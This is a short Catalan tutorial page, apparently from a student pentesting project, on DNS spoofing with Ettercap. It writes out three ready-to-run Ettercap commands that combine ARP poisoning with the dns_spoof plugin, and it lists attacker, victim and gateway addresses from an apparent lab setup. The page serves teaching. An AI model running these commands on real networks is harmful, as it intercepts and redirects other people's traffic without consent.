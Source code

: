 ![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/DNSSpoof.png?raw=true)
> __Img Source__: *@Aaron & @Cristian 's GitHub*
<br>

## __Ettercap per CLI__

Utilitza la següent ordre per llançar una suplantació de DNS:

sudo ettercap -T -q -P dns_spoof -i wlan0 -M arp /// ///

#Un altre comandament, per a tota la xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof -p //192.168.1.1/

#Per a un rang de xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof //192.168.1.1/ 192.168.1.51/

# __Explicació resumida:__

ARP Spoof - DNS Cache Poisoning

IP Atacant. 10.200.243.137 
MAC Atacant: 08:00:27:16:51:52

IP Victima: 10.200.243.212
MAC Victima: 18:c0:4d:a0:8f:c8

IP Router Gateway: 10.200.243.1
MAC Router Gateway: 00:22:57:be:53:01
